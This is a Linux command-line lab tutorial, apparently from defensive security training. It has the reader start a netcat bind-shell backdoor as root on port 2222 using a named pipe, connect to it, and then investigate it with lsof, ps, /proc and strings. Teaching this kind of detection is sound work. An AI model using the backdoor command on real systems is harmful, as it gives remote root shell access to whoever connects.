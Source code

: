 
# Linux CLI

In this lab we will be looking at a backdoor through the lens of the the Linux CLI.

We will be using a large number of different basic commands to get a better understanding of what the backdoor is and what it does.

For this lab we will be running three different Ubuntu terminals.

The first will be where we run the backdoor.

The second will be where we connect to it.

The third is where we will be running our analysis.

Let’s get started by opening a Terminal as Administrator


![](attachments/Clipboard_2020-06-12-10-36-44.png)

When you get the User Account Control Prompt, select Yes.

And, open a Ubuntu command prompt:

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux terminal, please run the following command:

<pre>sudo su -</pre>

The password is adhd.


This will get us to a root prompt. We want to do this because we want to have a backdoor running as root and a connection from a different user account on the system.

We will next need to create a fifo backpipe:

<pre>mknod backpipe p</pre>

Next, let's start the backdoor:

`/bin/bash  0<backpipe | nc -l 2222 1>backpipe`

In the above command we are creating a netcat listener that forwards all input through a backpipe and then into a bash session.  It then takes the output of the bash session and puts it back into the netcat listener. 

Basically, this will create a backdoor listening on port 2222 of our linux system.

Now, let's open another Ubuntu terminal.  This will be the terminal we connect to the above created backdoor with.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

Now we will need to know the IP address of our linux system:

<pre>ifconfig</pre>

![](attachments/Clipboard_2020-12-11-07-18-27.png)

Now, let's connect:

<pre> nc 172.30.249.49 2222</pre>

Remember!!!  Your IP address will be different!!!!

Now, let's type some commands and make sure it is working

<pre>ls</pre>
<pre>whoami</pre>

![](attachments/Clipboard_2020-12-11-07-19-48.png)

As you can see, we are connected to the simple Linux backdoor as root.  Also notice there was not message saying we successfully connected to the backdoor.  It just drops our cursor back to the left side of the screen.

Now, let's open yet another Ubuntu terminal and start our analysis. This means we have one where we created the backdoor, another that connected to it and this third one will be for the analysis.

![](attachments/Clipboard_2020-06-17-08-32-51.png)

On your Linux terminal, please run the following command:

<pre>sudo su -</pre>

This will get us to a root prompt.   We want to be root because looking at network connections and process information systemwide requires root access.  Basically, it is very hard to do your job as a SOC pro without root or admin rights.

Let's start by looking at the network connections with lsof.  When we use lsof, we are looking at open files.  When we use the -i flag we are looking at the open Internet connections.  When we use the -P flag we are telling lsof to not try and guess what the service is on the ports that are being used. Just give us the port number.

<pre>lsof -i -P</pre>


![](attachments/Clipboard_2020-12-11-07-23-35.png)

Now let's dig into the netcat process ID.  We can do this with the lowercase p switch.  This will give us all the open files associated with the listed process ID.

<pre>lsof -p 131</pre>

![](attachments/Clipboard_2020-12-11-07-24-11.png)

Let's look at the full processes.  We can do this with the ps command. We are also adding the aux switches.  This is a for all processes,  u for sorted by user and x to include the processes using a teletype terminal.

<pre>ps aux</pre>

![](attachments/Clipboard_2020-12-11-07-24-39.png)

Let's change directories into the proc directory for that pid.  Remember, proc is a directory that does not exist on the drive.  It allows us to see data associated with the various processes directly.   This can be very useful as it allows us to dig into the memory of a process that is currently running on a suspect system.

<pre>cd /proc/[pid]</pre>

![](attachments/Clipboard_2020-12-11-07-25-14.png)

We can see a number of interesting directories here:

<pre>ls</pre>

![](attachments/Clipboard_2020-12-11-07-28-21.png)

Remember!!!  Your PID will be different!!!

We can run strings on the exe in this directory.  This is very, very useful as when programs are created there may be usage information, mentions of system libraries and possible code comments.  We use this all the time to attempt to identify what exactly a program is doing.

<pre>strings ./exe</pre>

![](attachments/Clipboard_2020-12-11-07-25-54.png)

If we scroll down, we can see the actual usage information for netcat.  We pulled it directly out of memory!

![](attachments/Clipboard_2020-12-11-07-27-29.png)

















